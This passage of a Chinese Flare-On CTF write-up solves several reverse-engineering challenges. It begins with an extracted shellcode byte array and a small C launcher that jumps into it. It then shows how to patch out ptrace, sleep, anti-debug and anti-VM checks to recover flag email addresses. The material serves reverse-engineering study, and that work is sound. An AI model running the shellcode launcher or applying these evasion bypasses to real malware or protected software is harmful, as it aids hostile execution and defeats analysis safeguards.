    0xF5, 0x29, 0xEB, 0x67, 0x77, 0x25, 0x86, 0xE1, 0x05, 0x2A, 0xD6, 0x66, 0xB9, 0xA8, 0x35, 0x15,
    0x96, 0x42, 0x98, 0x34, 0x99, 0xB1, 0xBA, 0xB4, 0x2C, 0xB5, 0x12, 0xF8, 0x93, 0x4F, 0x76, 0x7B,
    0x79, 0x30, 0xFD, 0xBE, 0x71, 0x3F, 0x40, 0x4E, 0xB3, 0x7C, 0x75, 0x27, 0x09, 0xE2, 0x24, 0x43,
    0x70, 0x0C, 0x2D, 0x18, 0xE3, 0x02, 0xF9, 0x4A, 0x47, 0xBB, 0xB6, 0x41, 0x9F, 0x72, 0x48, 0x97,
    0x80, 0xD4, 0x28, 0xD5, 0x9B, 0x74, 0x3C, 0x1C, 0x84, 0xFC, 0x7D, 0x49, 0xB8, 0x7E, 0x6B, 0xD2,
    0xE0, 0x1D, 0x76, 0x0D, 0x74, 0x31, 0xEB, 0x14, 0x70, 0x37, 0xA9, 0x71, 0x3D, 0x72, 0x46, 0xB2,
    0x78, 0x2F, 0x7F, 0x04, 0xA9, 0xB6, 0x7B, 0x1C, 0x73, 0x3A, 0xE1, 0x3C, 0xBE, 0x19, 0xF9, 0x34,
    0x00, 0xD5, 0x7A, 0x03, 0xF8, 0xE2, 0x24, 0xB0, 0x4E, 0xFD, 0x79, 0x3D, 0x96, 0x75, 0x15, 0x9B,
    0x49, 0x7C, 0x2F, 0xB4, 0x4F, 0x9F, 0x99, 0x47, 0x3B, 0xC1, 0xD0, 0xE3, 0x14, 0x40, 0x3F, 0x90,
    0xBF, 0x41, 0x97, 0x43, 0x8D, 0xB8, 0x48, 0xB5, 0x77, 0x0D, 0xB2, 0x4A, 0x93, 0x2D, 0x67, 0x92,
    0x98, 0xB1, 0x1A, 0xFC, 0xB9, 0xD4, 0x2C, 0xB3, 0xF5, 0xBA, 0x0C, 0x69, 0xD6, 0x91, 0xA8, 0x04,
    0xBB, 0x1D, 0x66, 0x46, 0x05, 0x25, 0xB7, 0x35, 0x42, 0x37, 0x27, 0x4B, 0x90, 0xFC, 0x33, 0xD2,
    0xB2, 0x30, 0x64, 0xFF, 0x32, 0x5A, 0x8B, 0x52, 0x0C, 0x8B, 0x52, 0x14, 0x8B, 0x72, 0x28, 0x33,
    0xC9, 0xB1, 0x18, 0x33, 0xFF, 0x33, 0xC0, 0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0xC1, 0xCF,
    0x0D, 0x03, 0xF8, 0xE2, 0xF0, 0x81, 0xFF, 0x5B, 0xBC, 0x4A, 0x6A, 0x8B, 0x5A, 0x10, 0x8B, 0x12,
    0x75, 0xDA, 0x8B, 0x53, 0x3C, 0x03, 0xD3, 0xFF, 0x72, 0x34, 0x8B, 0x52, 0x78, 0x03, 0xD3, 0x8B,
    0x72, 0x20, 0x03, 0xF3, 0x33, 0xC9, 0x41, 0xAD, 0x03, 0xC3, 0x81, 0x38, 0x47, 0x65, 0x74, 0x50,
    0x75, 0xF4, 0x81, 0x78, 0x04, 0x72, 0x6F, 0x63, 0x41, 0x75, 0xEB, 0x81, 0x78, 0x08, 0x64, 0x64,
    0x72, 0x65, 0x75, 0xE2, 0x49, 0x8B, 0x72, 0x24, 0x03, 0xF3, 0x66, 0x8B, 0x0C, 0x4E, 0x8B, 0x72,
    0x1C, 0x03, 0xF3, 0x8B, 0x14, 0x8E, 0x03, 0xD3, 0x52, 0x33, 0xFF, 0x57, 0x68, 0x61, 0x72, 0x79,
    0x41, 0x68, 0x4C, 0x69, 0x62, 0x72, 0x68, 0x4C, 0x6F, 0x61, 0x64, 0x54, 0x53, 0xFF, 0xD2, 0x68,
    0x33, 0x32, 0x01, 0x01, 0x66, 0x89, 0x7C, 0x24, 0x02, 0x68, 0x75, 0x73, 0x65, 0x72, 0x54, 0xFF,
    0xD0, 0x68, 0x6F, 0x78, 0x41, 0x01, 0x8B, 0xDF, 0x88, 0x5C, 0x24, 0x03, 0x68, 0x61, 0x67, 0x65,
    0x42, 0x68, 0x4D, 0x65, 0x73, 0x73, 0x54, 0x50, 0xFF, 0x54, 0x24, 0x2C, 0x57, 0x68, 0x44, 0x21,
    0x21, 0x21, 0x68, 0x4F, 0x57, 0x4E, 0x45, 0x8B, 0xDC, 0xE8, 0x00, 0x00, 0x00, 0x00, 0x8B, 0x14,
    0x24, 0x81, 0x72, 0x0B, 0x16, 0xA3, 0xFB, 0x32, 0x68, 0x79, 0xCE, 0xBE, 0x32, 0x81, 0x72, 0x17,
    0xAE, 0x45, 0xCF, 0x48, 0x68, 0xC1, 0x2B, 0xE1, 0x2B, 0x81, 0x72, 0x23, 0x10, 0x36, 0x9F, 0xD2,
    0x68, 0x71, 0x44, 0xFA, 0xFF, 0x81, 0x72, 0x2F, 0xF7, 0xA9, 0xA9, 0x0C, 0x68, 0x84, 0xE9, 0xCF,
    0x60, 0x81, 0x72, 0x3B, 0xBE, 0x93, 0xA9, 0x43, 0x68, 0xD2, 0xA3, 0x98, 0x37, 0x81, 0x72, 0x47,
    0x82, 0x8A, 0x62, 0x3B, 0x68, 0xEF, 0xA4, 0x11, 0x4B, 0x81, 0x72, 0x53, 0xD6, 0x47, 0xC0, 0xCC,
    0x68, 0xBE, 0x69, 0xA4, 0xFF, 0x81, 0x72, 0x5F, 0xA3, 0xCA, 0x54, 0x31, 0x68, 0xD4, 0xAB, 0x65,
    0x52, 0x8B, 0xCC, 0x57, 0x53, 0x51, 0x57, 0x8B, 0xF1, 0x89, 0xF7, 0x83, 0xC7, 0x1E, 0x39, 0xFE,
    0x7D, 0x0B, 0x81, 0x36, 0x42, 0x45, 0x45, 0x46, 0x83, 0xC6, 0x04, 0xEB, 0xF1, 0xFF, 0xD0, 0x68,
    0x65, 0x73, 0x73, 0x01, 0x8B, 0xDF, 0x88, 0x5C, 0x24, 0x03, 0x68, 0x50, 0x72, 0x6F, 0x63, 0x68,
    0x45, 0x78, 0x69, 0x74, 0x54, 0xFF, 0x74, 0x24, 0x40, 0xFF, 0x54, 0x24, 0x40, 0x57, 0xFF, 0xD0 
};

int main(int argc, const char **argv, const char **envp)
{
    printf("11111111111111111111111");

    __asm
    {
        lea eax, shellcode;
        jmp eax;
    }
    return 0;
}

```

## 第五题

这道题真是白了少年头啊...

最终是通过 flare, com 这两个关键词组推理出 `_cfltcvt_init` 函数内各个变量之间的关系...

实际上稍微注意下函数 `_cfltcvt_init` 内各个变量的使用情况就可以发现, 除了初始化各个变量时都赋值一次外, 每个变量都有两次赋值(先赋值为 1, 后赋值为 0)和一次与 0 比较. 每当变量值大于 0 时, 马上赋值为 0, 并且给另外一个变量赋值 1, 因此推断这个变量应该首先赋值 1, 然后与 0 比较, 如果大于 0 则让你等于 0, 然后让另外一个变量值为 1, 因此可猜测这些变量的赋值操作是有顺序的, 每一次赋值都是设置标志位, 标志着上一道手续已经完成, 该进行下一道手续了, 而唯一要做的手续就是构造字符串. 因此, 只要按照各个变量的赋值顺序顺藤摸瓜即可.

按照这个理论去推算 **flare**, **com**, 发现完全符合, 并且推算出中间的破折号是 **dash**, **on** 字母还是 **on**, 英文句点是 **dot**, 剩下的就是从 `_cfltcvt_init` 函数内第一个变量开始推理了, 最终结果:

```
l0ggingdoturdot5tr0ke5atflaredashondotcom 
```

去掉 **dot**, **at**, **dash**, 得到:

```
l0gging.ur.5tr0ke5@flare-on.com 
```

PS: 没有找到一个简单的方法让这个程序自己输出邮箱地址...

* * *

## 第六题

各种坑, 各种混淆, 还有反调试, 把我这个菜鸟快坑死了...

刚开始时完全不知道如何入手, 于是自己写 **Hello World** 测试, 确定 `main` 函数位置...

后来得到大牛指导, 根据程序输出内容确定 `printf` 函数位置并标记它, 而且这个程序也是与参数有关的.

OK, 得到大牛指点后就标记了 `printf` 函数, 并且测试了当参数不同时程序的输出有什么不同, 测试发现:

*   一个参数: 输出 **no**;
*   两个参数: 输出 **bad**;
*   三个或三个以上参数: 输出 **stahp**

根据以上信息可推测程序应该只接受两个参数, 后面的分析也证明是这样~

另外, 在使用 `strace` 命令查看程序的系统调用时也可以发现, 只要参数个数不是两个的时候, 程序行为与是否被 `strace` 监控无关, 一旦程序有两个参数时, 这个程序就有个反调试判定:

```
root@kali:~/Desktop/6# strace -i ./e7bc5d2c0cf4480348f5504196561297 1 1
[    7fc5b45bba87] execve("./e7bc5d2c0cf4480348f5504196561297", ["./e7bc5d2c0cf4480348f55041965612"..., "1", "1"], [/* 30 vars */]) = 0
[          4a9297] uname({sys="Linux", node="kali", ...}) = 0
[          4aa78a] brk(0)               = 0x1441000
[          4aa78a] brk(0x14421c0)       = 0x14421c0
[          45e3f5] arch_prctl(ARCH_SET_FS, 0x1441880) = 0
[          4aa78a] brk(0x14631c0)       = 0x14631c0
[          4aa78a] brk(0x1464000)       = 0x1464000
[          47431b] ptrace(PTRACE_TRACEME, 0, 0x1, 0) = -1 EPERM (Operation not permitted)
[          473e44] fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 6), ...}) = 0
[          47509a] mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f04f4220000
[          473f50] write(1, "Program received signal SIGSEGV,"..., 52Program received signal SIGSEGV, Segmentation fault
) = 52
[          473dd8] exit_group(9001)     = ?

```

OK, 根据提示信息, 找到地址为 **47431b** 的位置, 发现这是一个值为 `65h` 的系统调用, 查看[GNU/linux 系统调用列表](http://jianlee.ylinux.org/Computer/Kernel/system_call_list.html) 发现它是 `__NR_ioperm:       //101 设置端口 I/O 权限`, 不知道为什么在此处却变成了 `__NR_ptrace:       // 26 进程跟踪` 调用了, 请求大牛指点~

上面这个地方就是反调试的地方了, 直接将调用这个函数的地方修改 `NOP`, 也就是 **42F211** 处的 `E8 9A 50 05 00` 五个字节全改为 `90` 即可.

然后就可以用 **kali** 自带的 **edb** 调试了(相比 **gdb**, 这货没有 `backtrace` 这样牛逼的命令啊).

通过 **bad** 字符串可以确定第一个参数长度为 10 个字节, 而且每个字节与 **56h** 异或后等于字符串 **bngcg`debd**, 因此可以反推出第一个参数是 **4815162342**. 下面这段代码是异或第一个参数的:

```
.text:0000000000437149 loc_437149:                             ; CODE XREF: sub_435E20+139Fj
.text:0000000000437149                 mov     eax, [rbp+var_C4]
.text:000000000043714F                 cdqe
.text:0000000000437151                 add     rax, [rbp+var_230]
.text:0000000000437158                 mov     edx, [rbp+var_C4]
.text:000000000043715E                 movsxd  rdx, edx
.text:0000000000437161                 add     rdx, [rbp+var_230]
.text:0000000000437168                 movzx   edx, byte ptr [rdx]
.text:000000000043716B                 xor     edx, 56h
.text:000000000043716E                 mov     [rax], dl
.text:0000000000437170                 add     [rbp+var_C4], 1

```

看看第一个参数检测通过后程序做了什么:

```
root@kali:~/Desktop/6# strace -i ./test 4815162342 a
[    7ff6ad0f4a87] execve("./test", ["./test", "4815162342", "a"], [/* 31 vars */]) = 0
[          4a9297] uname({sys="Linux", node="kali", ...}) = 0
[          4aa78a] brk(0)               = 0x10c9000
[          4aa78a] brk(0x10ca1c0)       = 0x10ca1c0
[          45e3f5] arch_prctl(ARCH_SET_FS, 0x10c9880) = 0
[          4aa78a] brk(0x10eb1c0)       = 0x10eb1c0
[          4aa78a] brk(0x10ec000)       = 0x10ec000
[          47c9c0] rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
[          47c882] rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
[          47c9c0] rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
[          473d50] nanosleep({3600, 0}, 

```

程序卡住了, `sleep` 3600 秒, 查看下有两处调用这个函数, 分别设置断点, 最终确认是 **473C67** 处调用的, 将其设置为空指令~

再使用 `strace` 跟踪程序, 什么都发现不了了...

```
root@kali:~/Desktop/6# strace ./test 4815162342  a
[    7fbf6cd9ea87] execve("./test", ["./test", "4815162342", "a"], [/* 30 vars */]) = 0
[          4a9297] uname({sys="Linux", node="kali", ...}) = 0
[          4aa78a] brk(0)               = 0x103c000
[          4aa78a] brk(0x103d1c0)       = 0x103d1c0
[          45e3f5] arch_prctl(ARCH_SET_FS, 0x103c880) = 0
[          4aa78a] brk(0x105e1c0)       = 0x105e1c0
[          4aa78a] brk(0x105f000)       = 0x105f000
[          47c9c0] rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
[          47c882] rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
[          47c9c0] rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
[          47c9c0] rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
[          47c882] rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
[          47c9c0] rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
[          47c9c0] rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
[          47c882] rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
[          47c9c0] rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
[          47c9c0] rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
[          47c882] rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
[          47c9c0] rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
[          47c9c0] rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
[          47c882] rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
[          47c9c0] rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
[    7fffc3975aec] _exit(140736474871580) = ?

```

此时, 我忘记之前是如何发现处理第二个参数的地方了...仔细想想, 当时应该是花费了大量时间筛选程序结构, 利用类似二分法的方式排除了大量无用函数后才刚好碰到了处理第二个参数的地方了.

现在重新来过肯定不能用这个笨方法了, 之前大牛提到过给参数下访问断点的事情, 好吧, 给第二个参数下访问断点吧. 此时就不能用 **edb** 调试了, 只能祭出神器 **gdb** 了, 在 `main` 下断点, 确定第二个参数的内存地址, 然后使用 `watch` 命令给该地址下访问断点, 运行程序, 当程序停下来时查看函数调用桟:

```
(gdb) bt
#0  0x00007fffffffd15f in ?? ()
#1  0x00007fffffffd148 in ?? ()
#2  0x000000000044bb2d in ?? ()
#3  0x000000000044c8f1 in ?? ()
#4  0x000000000044eabc in ?? ()
#5  0x000000000045bf71 in ?? ()
#6  0x000000000045dd01 in ?? ()
#7  0x000000000045dea4 in ?? ()
#8  0x0000000000401081 in ?? ()
#9  0x00007fffffffe438 in ?? ()
#10 0x0000000000000000 in ?? ()

```

此时执行反汇编命令 `disassemble` 失败:

```
(gdb) disassemble 
No function contains program counter for selected frame.

```

那就还是在 **edb** 中调试吧~~~

切换到 **edb**,查看 **0x44bb2d** 处汇编代码, 在 **0x44bb2b** 处下断点, 然后跟进函数调用即可看到第二个参数的验证过程:

```
.text:000000000044BB13                 lea     rdx, [rbp+var_440]
.text:000000000044BB1A                 mov     rax, [rbp+var_450]
.text:000000000044BB21                 add     rax, 10h
.text:000000000044BB25                 mov     rax, [rax]
.text:000000000044BB28                 mov     rdi, rax
.text:000000000044BB2B                 call    rdx
.text:000000000044BB2D
.text:000000000044BB2D loc_44BB2D:                             ; CODE XREF: sub_44B942+AEj
.text:000000000044BB2D                 mov     [rbp+var_2B], 44h
.text:000000000044BB31                 mov     [rbp+var_25], 44h
.text:000000000044BB35                 cmp     [rbp+var_25], 44h
.text:000000000044BB39                 jz      short loc_44BB6C

```

最终得出第二个参数是 **l1nhax.hurt.u5.a1l@flare-on.com**.

因此, 该程序的两个参数分别是 **4815162342 l1nhax.hurt.u5.a1l@flare-on.com**

### 附录:

gdb 中查看字符串:

```
p  "%s", *(char*)address@len

```

生成第二个参数的 C 语言代码(程序中验证过程的逆运算):

注: 每个函数可生成/输出一个字母, 函数名是测试时各个跳转的内存地址, 仅供参考.

```
#include <stdio.h>

unsigned char CROL(unsigned char c, int bits)
{
    if (bits > 8)
        bits = bits % 8;

    return (c << bits) | (c >> (8 - bits));
}

unsigned char CROR(unsigned char c, int bits)
{
    if (bits > 8)
        bits = bits % 8;

    return (c >> bits) | (c << (8 - bits));
}
unsigned char c = 0;

void e87c()
{
    c = 27;
    c = CROL(c, 0xf2);
    printf("%c", c);
}

void e886()
{
    c = 48;
    c = c ^ 0xb3;
    c = c ^ 0xf2;
    c = c ^ 64;
    printf("%c", c);
}

void e89a()
{
    c = 31;
    c = c ^ 113;
    printf("%c", c);
}

void e8a8()
{
    c = 0xb0;
    c = CROL(c, 0xbc);
    c -= 0xa3;
    printf("%c", c);
}

void e8b9()
{
    c = 0xe8;
    c += 121;
    printf("%c", c);
}

void e8c7()
{
    c = 0xf6;
    c += 40;
    c = CROL(c, 0x82);
    printf("%c", c);
}

void e8d8()
{
    c = 31;
    c -= 44;
    c = CROL(c, 77);
    c += 0xb0;
    printf("%c", c);
}

void e8ec()
{
    c = 0xaf;
    c -= 63;
    c = CROL(c, 42);
    c = c ^ 0xb8;
    c = CROR(c, 0x99);
    c -= 84;
    printf("%c", c);
}

void e906()
{
    c = 93;
    c = CROL(c, 0xba);
    printf("%c", c);
}

void e914()
{
    c = 41;
    c -= 48;
    c = CROL(c, 108);
    c = c ^ 0xed;
    printf("%c", c);
}

void e928()
{
    c = 0xb5;
    c += 0xbf;
    printf("%c", c);
}

void e936()
{
    c = 0xa5;
    c -= 99;
    c += 49;
    c = CROR(c, 123);
    c -= 0x8c;
    c = CROR(c, 0xbc);
    printf("%c", c);
}

void e950()
{
    c = 0xf3;
    c = CROR(c, 0x98);
    c = c ^ 0xae;
    c = CROR(c, 22);
    c = CROR(c, 32);
    printf("%c", c);
}

void e967()
{
    c = 0xa6;
    c -= 0xd2;
    c = CROL(c, 110);
    printf("%c", c);
}

void e978()
{
    c = 98;
    c -= 52;
    printf("%c", c);
}

void e986()
{
    c = 50;
    c = c ^ 0xb2;
    c -= 98;
    c += 16;
    c -= 0xcd;
    printf("%c", c);
}

void e99d()
{
    c = 0xeb;
    c = CROL(c, 7);
    c = c ^ 115;
    c = c ^ 0xb7;
    printf("%c", c);
}

void e9b1()
{
    c = 11;
    c += 76;
    c -= 91;
    c = CROL(c,  54);
    c += 97;
    c -= 52;
    printf("%c", c);
}

void e9cb()
{
    c = 0x9a;
    c -= 90;
    printf("%c", c);
}

void e9d9()
{
    c = 0x99;
    c = CROL(c, 0xa2);
    printf("%c", c);
}

void e9e7()
{
    c = 43;
    c += 0xe7;
    c = c ^ 126;
    printf("%c", c);
}

void e9f8()
{
    c = 0xaf;
    c = CROR(c, 87);
    c = CROL(c, 74);
    c -= 78;
    c = c ^ 0x86;
    c += 0xb8;
    printf("%c", c);
}

void ea12()
{
    c = 0xc3;
    c = c ^ 0xad;
    c = c ^ 74;
    c = CROR(c, 0x95);
    c = c ^ 0xe8;
    c = CROL(c, 0x86);
    printf("%c", c);
}

void ea2c()
{
    c = 3;
    c -= 28;
    c = c ^ 0xcc;
    c = CROL(c, 69);
    printf("%c", c);
}

void a40()
{
    c = 0xe3;
    c += 74;
    printf("%c", c);
}

void a4e()
{
    c = 0xca;
    c = CROL(c, 0x90);
    c = c ^ 0xa5;
    printf("%c", c);
}

// n
void a5f()
{
    c = 62;
    c += 0xd8;
    c = c ^ 120;
    c = CROR(c, 54);
    c = CROL(c, 0xde);
    printf("%c", c);
}

// .
void a76()
{
    unsigned char c = 0xd8;
    c = CROR(c, 17);
    c = CROR(c, 0xa2);
    c = CROL(c, 0x89);
    c += 0xad;
    c -= 0xb5;
    printf("%c", c);
}

// c
void a90()
{
    unsigned char c = 0x82;
    c = CROL(c, 0xc0);
    c += 33;
    c -= 64;
    printf("%c", c);
}

// o
void aa4()
{
    char c = 123;
    c = CROR(c, 0xe3);
    printf("%c", c);
}

// m
void ab2()
{
    char c = 0xd7;
    c = CROL(c, 0xf6);
    c += 120;
    printf("%c", c);
}

int main()
{
    e87c();
    e886();
    e89a();
    e8a8();
    e8b9();
    e8c7();
    e8d8();
    e8ec();
    e906();
    e914();
    e928();
    e936();
    e950();
    e967();
    e978();
    e986();
    e99d();
    e9b1();
    e9cb();
    e9d9();
    e9e7();
    e9f8();
    ea12();
    ea2c();
    a40();
    a4e();
    a5f();
    a76();
    a90();
    aa4();
    ab2();

    return 0;
}

```

* * *

## 第七题

这个程序使用了大量反调试/反虚拟机/根据时间定期触发行为的特性, 并且每通过一个检测点后就会对程序异或解密一次, 如果所有的检测点都通过后, 会生成一个 dotNet 程序, 然后再破解这个 dotNet 程序, 找出邮箱地址.

这个程序在第一个函数 `call test.00401030` 使用 [`IsDebuggerPresent`](http://msdn.microsoft.com/en-us/library/windows/desktop/ms680345(v=vs.85).aspx) 函数检测是否被调试, 如果程序被调试这个函数返回非零值, 否则返回值为 0.

第二个函数 `call test.004010C0` 检查 **PEB(Process Environment Block)** 的 **BeingDebugged** 标志, 如果值为 1 则表示该程序被调试. 其偏移位置为 `FS:[0x32]`. (`FS:0` 指向 **TEB(Thread Environment Block)**, `FS:[0x30]` 指向 **PEB**, 而 **BeingDebugger** 在 **PEB** 偏移 2h 处).

第三个函数 `call test.00401130` 通过 `sidt` 指令获取中断描述符表 **IDT(Interrupt Descriptor Table)** 的地址, 如果 IDT 地址为 **0xFFxxxxxx**, 则认为程序运行在虚拟机中, 拒绝解密代码. 在 VMware 的虚拟机上 IDT 位于地址 **0xFFxxxxxx**, 而真实机地址为 **0x80xxxxxx**. 不过比较幸运的是由于 VMware 更新, 这个检测点已经失效了, 所以此函数不需要修改了.

第四个函数 `call test.004011D0` 通过执行特权指令 `in` 来检测虚拟机, 此处使用功能号 0A 获取 VMware, 检测其返回值是否为 **VMXH**.

第五个函数 `call test.004012A0` 连续调用 `SetLastError`, `OutputDebugStringW` 和 `GetLastError` 函数, 如果程序被调试, 则 `OutputDebugStringW` 调用成功, `GetLastError` 返回值仍旧是刚刚通过 `SetLastError` 设置的值.

第六个函数 `call test.00401350` 检测从地址区间 **test.00401030~test.00401780** 内指令操作码 `0xCC` 数目是否等于 0x55, 如果不等, 则认为程序被调试.

第七个函数 `call test.004013F0` 检测 **PEB** 偏移 68h 处的 **NtGlobalFlag** 标志, 当程序被调试时, 该值等于 70h.

第八个函数 `call test.00401460` 检测当前日期是否为任意一个月的 5 号, 如果是 5 号的话就解密程序...

然后是获取当前进程文件的路径以及参数的起始地址, 存放在 **eax** 中. 此处要将 **eax** 指向的字符串修改为 **backdoge.exe**, 后面函数会使用到这个检测点.

第九个函数 `call test.004014F0` 检查 **eax** 指向的字符串是否等于 **backdoge.exe**, 如果是则解密程序....

第十个函数 `call test.00401590` 有两个检测点, 但是, 如果检测条件为真的话会 **混淆(不是解密哦)** 代码, 所以一定要确保检测点为假. 不过一般情况下本函数不需要修改. 因为目前大多还在使用 IPv4, 并且不会将 **www.dogecoin.com** 重定向到 **127.0.0.1**(这个检测点有点怪, 谁会将这个域名重定向到 127.0.0.1 呢???).

第十一个函数 `call test.004016F0` 又是检测时间的. 如果当前时间点为 **17 点** 的话, 则通过检测, 解密代码.

```
00401B13   > \E8 18F5FFFF   call test.00401030
00401B18   .  E8 A3F5FFFF   call test.004010C0
00401B1D   .  E8 0EF6FFFF   call test.00401130
00401B22   .  E8 A9F6FFFF   call test.004011D0
00401B27   .  E8 74F7FFFF   call test.004012A0
00401B2C   .  E8 1FF8FFFF   call test.00401350
00401B31   .  E8 BAF8FFFF   call test.004013F0
00401B36   .  E8 25F9FFFF   call test.00401460
00401B3B   .  8B06          mov eax, dword ptr ds:[esi]
00401B3D   .  E8 AEF9FFFF   call test.004014F0
00401B42   .  E8 49FAFFFF   call test.00401590
00401B47   .  E8 A4FBFFFF   call test.004016F0

```

后面这段代码是解密代码的, 不用管.

```
00401B4C  |.  8B1D 38945100            mov ebx, dword ptr ds:[test.519438]
00401B52  |.  8B3E                     mov edi, dword ptr ds:[esi]
00401B54  |.  33C9                     xor ecx, ecx
00401B56  |.  85DB                     test ebx, ebx
00401B58  |.  74 29                    jz short test.00401B83
00401B5A  |.  8D9B 00000000            lea ebx, [ebx]
00401B60  |>  B8 ABAAAAAA              /mov eax, AAAAAAAB
00401B65  |.  F7E1                     |mul ecx
00401B67  |.  C1EA 03                  |shr edx, 3
00401B6A  |.  8D0452                   |lea eax, [edx*2+edx]
00401B6D  |.  03C0                     |add eax, eax
00401B6F  |.  03C0                     |add eax, eax
00401B71  |.  8BD1                     |mov edx, ecx
00401B73  |.  2BD0                     |sub edx, eax
00401B75  |.  8A043A                   |mov al, byte ptr ds:[edi+edx]
00401B78  |.  3081 F8314100            |xor byte ptr ds:[ecx+test.4131F8], al
00401B7E  |.  41                       |inc ecx
00401B7F  |.  3BCB                     |cmp ecx, ebx
00401B81  |.^ 72 DD                    \jb short test.00401B60

```

第十二个函数 `call test.004017A0`. 这个函数与 **第十个函数** 检测类似, 如果您没有修改第十个检测函数, 即您电脑使用了 IPv4, 则本函数也不需要修改.

第十三个函数 `call test.004018A0` 需要翻墙访问 **https://twitter.com/FireEye/status/484033515538116608**, 读取页面内容, 将 **Secluded Hi** 后面的 7 个字节(也就是 **jackRAT**)作为异或解密的密钥解密程序. 你可以翻墙, 或者本地搭服务器修改 host~

```
00401B83  |> \E8 18FCFFFF              call test.004017A0
00401B88  |.  E8 13FDFFFF              call test.004018A0                      ; [test.004018A0

```

至此, ***|||||||*之间的代码已被解密, 除了 **MZ** 和 **PE** 标志字符串以外, 这段内存已经是个标志的 PE 文件了. 下面这段代码就是取第一个参数设置 **MZ** 标志位, 取第二个参数设置 **PE** 标志位:

```
00401B8D   .  8B4E 04               mov ecx, dword ptr ds:[esi+0x4]
00401B90   .  0FB611                movzx edx, byte ptr ds:[ecx]
00401B93   .  8815 F8314100         mov byte ptr ds:[0x4131F8], dl
00401B99   .  8B46 04               mov eax, dword ptr ds:[esi+0x4]
00401B9C   .  8A48 01               mov cl, byte ptr ds:[eax+0x1]
00401B9F   .  880D F9314100         mov byte ptr ds:[0x4131F9], cl
00401BA5   .  8B56 08               mov edx, dword ptr ds:[esi+0x8]
00401BA8   .  8A02                  mov al, byte ptr ds:[edx]
00401BAA   .  A2 78324100           mov byte ptr ds:[0x413278], al
00401BAF   .  8B4E 08               mov ecx, dword ptr ds:[esi+0x8]
00401BB2   .  0FB651 01             movzx edx, byte ptr ds:[ecx+0x1]

```

因此, 这个程序的 0 两个参数分别为 **MZ** 和 **PE**.

再后面就是将解密后的程序写入文件 **gratz.exe** 并运行了.

程序运行界面: 

这是个 .Net 程序, 拖到 **ILSpy** 里, 可以看到如下程序结构:



其中, `lulz.decoder1`, `lulz.decoder2`, `lulz.decoder3` 和 `lulz.decoder4` 都是将输入字符串的每个字符经过一系列转换后生成解密后的字符. 解密后发现 `lulz.datwork` 里面使用 SMTP 协议发送邮件的几个设置都是错误的, 其具体值为:

```
To: al1.dat.data@flare-on.com
Subject: al1.dat.data@flare-on.com
From: lulz@flare-on.com
SmtpClient: smtp.secureserver.net

```

另外还发现没有使用 `lulz.decoder4`. 后来在 `From1.lulzors` 里面发现有调用 `lulz.decoder4`, 刚好这个函数是界面初始化的函数:

```
// Finisher.Form1
public void lulzors()
{
    lulz lulz = new lulz();
    Thread thread = new Thread(new ThreadStart(lulz.datwork));
    thread.Start();
    while (thread.IsAlive)
    {
    }
    this.label2.Text = lulz.decoder4("\v\fP\u000e\u000fBA\u0006\rG\u0015I\u001a\u0001\u0016H\\\t\b\u0002\u0013/\b\t^\u001d\bJO\a]C\u001b\u0005");
}

```

这个 `Form1.label2` 应该就是程序界面下方空白的那一部分吧, 把调用 `lulz.decoder4` 这一行单独拿出来执行, 其结果为:

```
da7.f1are.finish.lin3@flare-on.com 
```

这个就是最终正确的邮箱地址了.

当然也可以修改程序, 让程序直接输出邮箱地址:


## 参考链接:

*   [【原创】虚拟机检测技术剖析](http://bbs.pediy.com/showthread.php?t=119969)
*   加密与解密(第三版)
*   [利用 pdf 的 js 函数漏洞构造堆喷射的攻击思路](http://blog.csdn.net/hqucth/article/details/7884917)
*   [找到 shellcode](http://book.51cto.com/art/201405/438749.htm)

版权声明：未经授权禁止转载 [g3t](http://drops.wooyun.org/author/g3t "由 g3t 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [JAVA 逆向&反混淆-追查 Burpsuite 的破解原理](http://drops.wooyun.org/tips/2689)
*   [Blind Return Oriented Programming (BROP) Attack – 攻击原理](http://drops.wooyun.org/tips/3071)
*   [64 位 Linux 下的栈溢出](http://drops.wooyun.org/tips/2288)
*   [Winrar4.x 的文件欺骗漏洞利用脚本](http://drops.wooyun.org/tips/1346)
*   [使用 netcat 进行反弹链接的 shellcode](http://drops.wooyun.org/tips/1376)
*   [堆溢出学习笔记](http://drops.wooyun.org/tips/1621)